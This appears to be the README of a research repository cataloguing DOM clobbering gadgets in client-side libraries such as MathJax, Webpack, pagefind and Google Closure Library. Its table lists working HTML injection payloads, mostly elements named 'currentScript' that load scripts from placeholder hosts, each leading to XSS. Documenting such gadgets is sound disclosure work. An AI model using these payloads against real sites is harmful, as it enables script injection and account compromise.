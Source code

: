 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) |  | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) |  | ```<img name=currentScript label="<script>alert(1)</script>"></img>``` | XSS | TheHulk |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk |
| [Google Closure Library](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk |
